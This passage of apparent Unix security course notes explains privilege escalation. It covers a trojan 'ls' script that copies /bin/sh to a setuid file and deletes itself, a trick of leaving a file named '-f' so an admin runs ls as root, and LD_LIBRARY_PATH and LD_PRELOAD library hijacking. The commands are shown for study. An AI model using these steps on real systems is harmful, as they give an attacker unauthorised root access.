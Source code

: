     1. **`cp /bin/sh ./Stuff/sume`**: Copies the **`/bin/sh`** file to **`./Stuff/sume`**.
    2. **`chmod 4555 ./Stuff/sume`**: Changes the permissions of the **`./Stuff/sume`** file to allow it to run with elevated privileges.
       
        ![截屏2023-08-05 上午1.23.37.png](https://s2.loli.net/2023/08/05/EU3CeSMgZLuox8F.png)
        
    3. **`rm -f $0`**: Deletes the script file after it has been run.
    4. **`exec /bin/ls $1`**: Runs the **`/bin/ls`** command with the specified argument, if any.
2. Create another unreadable file with whatever content
   
    ```bash
    # create a file named -f, since admin may try rm -f
    chmod 700 .; touch ./-f
    ```
    
3. You tell the admin you cannot erase one of your files (`-f`)
4. Admin becomes root moves to your directory and enters `ls`, then your customized version of `ls` is executed
5. You now have root for `sume`, a root shell interpreter
   ```bash
   > ./Stuff/sume
   ```
   



**`LD_LIBRARY_PATH` and `LD_PRELOAD`**

- `LD_LIBRARY_PATH`: this environment variable specifies a list of directories where the dynamic linker should look for dynamically linked library files (.so files in Unix/Linux), in addition to the standard locations (like /lib and /usr/lib).
  
    - If these libraries are exchanged with malware, attackers can place a fake libc.so to user’s machine and get executed everytime
      
        ```bash
        # /tmp will be searched first for libc.so
        setenv LD_LIBRARY_PATH /tmp:$LD_LIBRARY_PATH
        ```
        
    - Most C runtime libraries have fixed this issue by ignoring the `LD_LIBRARY_PATH` var when the EUID (Process ID) is not equal to the UID (User ID)
- `LD_PRELOAD`: this variable is used to load a specific library (or libraries) before any others when starting a program, even if they are not explicitly requested by the program. This allows you to override functions in other shared libraries.

    - This allows the user to replace standard C library functions, such as the C interfaces to system calls
      
        ![截屏2023-08-05 下午2.41.28.png](https://s2.loli.net/2023/08/06/nwqvFyJuaxdM5rf.png)
- `LD_LIBRARY_PATH` changes where the system looks for libraries, while `LD_PRELOAD` changes the order in which they are loaded.
        
